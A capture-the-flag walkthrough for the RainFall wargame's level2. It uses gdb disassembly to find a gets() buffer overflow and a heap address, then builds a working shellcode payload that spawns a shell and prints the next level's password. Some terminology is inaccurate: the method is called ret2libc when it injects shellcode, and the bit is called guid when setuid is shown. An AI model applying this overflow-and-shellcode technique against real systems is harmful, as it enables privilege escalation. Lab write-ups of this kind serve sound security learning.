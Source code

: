 # level0

## Hint

When we log into the machine as `level2`, we notice a binary that segfaults when we run it without a parameter:

```shell-session
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
coucou
coucou
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

## gdb

### getting to know the binary

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>            <----- Call to function p
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
gdb-peda$ disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>  <----- Call to fflush
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>    <----- Call to gets
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000          <----- Logical binary operation
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>        <----- Conditional jump to p+83
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>  <----- Call to printf
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>   <----- Call to exit
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>    <----- Call to puts
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>  <----- Call to strdup
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

There seems to be a lot going on here.

Indeed there could be several ways for us to make this executable open a shell for us:
1. use a `ret2libc` exploit by injecting a shell code that would call a `/bin/sh` from within the available symbols in the binary.
2. use a `ROP` (return oriented programming) exploit, in order to carefully sequence a series of `RET` operation with addresses, that will allow the cherry picking of instructions to execute.

We will try the first one.

### return to libc

We know this is possible because there is a function call (strdup) that will allocate on the HEAP a chunk of data that we may very well have tailored to call the wanted functions from the libc.

To do that we first need to determine the size of the buffer.

Using our favourite [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can determine that size.

![](Ressources/pattern_generator_demonstration.png)

We then use the address returned by gdb in order to determine the size of the buffer

![](Ressources/pattern_generator_demonstration_size.png)

The tool tells us that the buffer indeed had a size of 80.

Now that we have the size of the buffer, as for the previous exercise, we must find the address to overwrite the Return Instruction Pointer register with.

This will allow us to send the execution to where we will have allocated our malicious shellcode

Obviously, that address will be the one at the start of the HEAP, since that's where our shellcode will be allocated by the call to `strdup`.

So how do we find the start address of the that chunk of HEAP memory ?
Easily enough: `info proc mappings`, though obviously enough, we need to set a breakpoint AFTER the call to the HEAP-allocating function `strdup`.

```gdb
gdb-peda$ b *p+105
Breakpoint 1 at 0x804853d
[...]
[-------------------------------------code-------------------------------------]
   0x8048532 <p+94>:	lea    eax,[ebp-0x4c]
   0x8048535 <p+97>:	mov    DWORD PTR [esp],eax
   0x8048538 <p+100>:	call   0x80483e0 <strdup@plt>
=> 0x804853d <p+105>:	leave
   0x804853e <p+106>:	ret
   0x804853f <main>:	push   ebp
   0x8048540 <main+1>:	mov    ebp,esp
   0x8048542 <main+3>:	and    esp,0xfffffff0
[...]
gdb-peda$ info proc mappings
process 7541
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	 0x804a000  0x806b000    0x21000        0x0 [heap]     <---- START ADDRESS OF HEAP
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fd9000 0xb7fdd000     0x4000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
gdb-peda$
```

Okay now, last part before we can say we have officially hacked that binary: the shellcode.

Our shellcode must be one to call a `/bin/sh` binary to open a shell for us.
There are plenty available on [shellstorm](http://shell-storm.org/), so it doesn't really matter which one we take as long as it's at least smaller that 80 bytes. (because we need room for the HEAP address we have found before) 

Our shellcode is found [here](http://shell-storm.org/shellcode/files/shellcode-811.php) and it is 28 bytes long. That means that for the overflow to happen we must concatenate a 52 byte padding to the shell code, and then the address we mentionned before.

```shell-session
level2@RainFall:~$
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'thisisjustbutapaddingtoguaranteethatwehaveanoverflow' + '\x08\xa0\x04\x08'"; cat -)>
1Ph//shh/bin�°
              ̀1@̀thisisjustbutapaddingtoguaranteethveanoverflow
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```



